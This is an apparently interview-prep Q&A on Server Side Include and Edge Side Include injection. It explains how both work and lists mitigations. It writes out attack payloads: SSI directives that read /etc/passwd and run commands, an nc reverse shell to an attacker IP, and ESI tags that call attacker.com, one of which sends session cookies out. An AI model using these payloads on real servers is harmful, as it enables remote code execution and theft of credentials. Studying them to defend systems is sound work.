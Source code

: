 ### 1. **What is Server Side Include Injection (SSI Injection), and how does it work?**
**Answer:**
SSI Injection occurs when an attacker is able to inject malicious Server Side Include (SSI) directives into web pages served by the server. These directives are processed by the web server before the page is sent to the client, allowing attackers to manipulate server-side behavior. For example, using SSI directives like `<!--#include file="..."-->`, an attacker can include sensitive files, execute commands, or retrieve environment variables, potentially leading to the disclosure of sensitive information or remote code execution.

### 2. **What are the potential security risks associated with SSI Injection?**
**Answer:**
SSI Injection can lead to several severe security risks:
- **Sensitive Data Disclosure**: Attackers can use the `<!--#include file="/etc/passwd"-->` directive to access sensitive files like `/etc/passwd`, revealing system information.
- **Command Execution**: The `<!--#exec cmd="..."-->` directive can be used to execute arbitrary system commands, leading to potential remote code execution.
- **Remote Code Execution**: By injecting commands in an SSI, attackers can execute shell commands on the server, leading to system compromise, privilege escalation, or unauthorized data access.
- **Information Disclosure**: Using `<!--#printenv-->` or similar directives, attackers can enumerate environment variables and other sensitive information from the server.

### 3. **What are Edge Side Includes (ESI), and how are they related to SSI Injection?**
**Answer:**
Edge Side Includes (ESI) are a technology that allows caching proxies or edge servers to include content from different sources, such as web applications or external services, at the edge of the network. They are similar to SSI in that they allow dynamic content inclusion, but ESI works at the HTTP layer, typically used by reverse proxies or content delivery networks (CDNs) like Akamai, Fastly, and Varnish. 

ESI Injection occurs when an attacker injects malicious ESI tags into the HTTP response, potentially allowing:
- Exfiltration of sensitive data (e.g., cookies or headers).
- Triggering XSS (Cross-Site Scripting) attacks via injected content.
- Access to internal files by including resources from external malicious servers.

### 4. **Explain the difference between SSI Injection and ESI Injection.**
**Answer:**
- **SSI Injection**: Occurs when an attacker can inject SSI directives (e.g., `<!--#exec cmd="..."-->`, `<!--#include file="..."-->`) into a web page served by a server that processes these directives. It allows for actions like executing server-side commands or accessing sensitive files.
- **ESI Injection**: Targets caching proxies or edge servers that support ESI tags (e.g., `<esi:include src="...">`). It exploits the lack of validation of ESI tags to exfiltrate data, inject content (like XSS payloads), or interfere with the caching process.

### 5. **What are some examples of payloads used in SSI Injection attacks?**
**Answer:**
Some common payloads used in SSI Injection attacks include:
- **File inclusion**: 
  ```html
  <!--#include file="/etc/passwd" -->
  ```
  This payload includes sensitive server files like `/etc/passwd`, revealing user information.
- **Command execution**:
  ```html
  <!--#exec cmd="ls" -->
  ```
  This payload executes the `ls` command to list files on the server.
- **Reverse shell**:
  ```html
  <!--#exec cmd="mkfifo /tmp/f;nc <attacker_ip> <attacker_port> 0</tmp/f|/bin/bash 1>/tmp/f;rm /tmp/f" -->
  ```
  This payload establishes a reverse shell, allowing the attacker to execute commands on the server.
- **Print environment variables**:
  ```html
  <!--#printenv -->
  ```
  This prints all environment variables, providing attackers with valuable system information.

### 6. **What security mechanisms can be implemented to prevent SSI Injection vulnerabilities?**
**Answer:**
To prevent SSI Injection vulnerabilities:
- **Input Validation**: Validate and sanitize user inputs, ensuring that no malicious SSI directives or special characters (e.g., `#`, `<!--`, etc.) can be injected into the request.
- **Disable SSI**: If SSI is not required, disable the SSI functionality on the server.
- **Use Safe Contexts**: Avoid processing user-generated content within SSI contexts. For example, ensure that user input is not passed into SSI directives or commands.
- **Limit File Inclusions**: Restrict the types of files that can be included via SSI, and avoid including files with sensitive data like configuration files.
- **Escape Characters**: Properly escape special characters in user input to prevent them from being interpreted as SSI directives or command arguments.

### 7. **What is the role of the Surrogate-Control header in ESI Injection attacks?**
**Answer:**
The **Surrogate-Control** header is used to indicate that the HTTP response contains ESI tags and should be processed by the caching proxy or edge server (surrogate). Attackers may inject malicious ESI tags into a response, and if the Surrogate-Control header is set, the edge server may evaluate these malicious tags, leading to an attack. For example:
- **Blind Detection**:
  ```html
  <esi:include src="http://attacker.com"/>
  ```
  The attacker can inject ESI tags, and the edge server will process them, potentially leading to unintended data inclusion or execution.
- **XSS or Cookie Stealing**:
  ```html
  <esi:include src="http://attacker.com/XSS_PAYLOAD.html"/>
  ```

### 8. **How can ESI Injection be used to steal cookies or session information?**
**Answer:**
ESI Injection can be used to create payloads that send HTTP requests to attacker-controlled servers to steal sensitive data. For example, an attacker can use:
```html
<esi:include src="http://attacker.com/cookie_stealer.php?cookie=$(HTTP_COOKIE)"/>
```
This ESI tag would cause the edge server to make an HTTP request to the attacker’s server, passing the session cookies in the URL or body, allowing the attacker to steal the user's cookies.

### 9. **What is the significance of `esi:inline` tags in ESI Injection attacks, and how can they be exploited?**
**Answer:**
The `esi:inline` tag allows for inline fragments of HTML to be included and processed by the surrogate. An attacker can inject an `esi:inline` tag with malicious content, such as a script or payload, to perform attacks like XSS or data exfiltration:
```html
<esi:inline name="/attack.html" fetchable="yes">
  <script>prompt('XSS');</script>
</esi:inline>
```
This tag can inject JavaScript that executes in the user's browser, leading to XSS vulnerabilities.

### 10. **What is the role of ESI in caching servers like Varnish, Squid, or Fastly, and how can it be exploited in an ESI Injection attack?**
**Answer:**
ESI is often used in caching servers to dynamically assemble content from multiple sources at the edge, reducing the load on the origin server. However, if attackers can inject ESI tags into HTTP responses, they can exploit these systems:
- **Varnish**: Can include dynamic content from external sources, potentially leading to information disclosure.
- **Squid**: Can expose environment variables or other sensitive data by processing injected ESI tags.
- **Fastly**: May execute malicious ESI instructions, allowing attackers to inject headers, execute commands, or steal cookies.
  
In these cases, ESI Injection can be used to manipulate cache behavior, execute commands, or steal data through injected tags.

### 11. **How does a reverse shell exploit via SSI Injection work, and what can be done to mitigate it?**
**Answer:**
A reverse shell exploit via SSI Injection uses the `<!--#exec cmd="..."-->` directive to execute system commands. The attacker might inject a command like:
```html
<!--#exec cmd="mkfifo /tmp/f;nc <attacker_ip> <attacker_port> 0</tmp/f|/bin/bash 1>/tmp/f;rm /tmp/f" -->
```
This payload creates a named pipe and connects it to a remote attacker’s system, giving the attacker control over the server’s shell.

**Mitigation**:
- Disable the `exec` command in SSI configuration.
- Sanitize user inputs to ensure that command injection is not possible.
- Apply the principle of least privilege to minimize the impact of compromised user input.

---
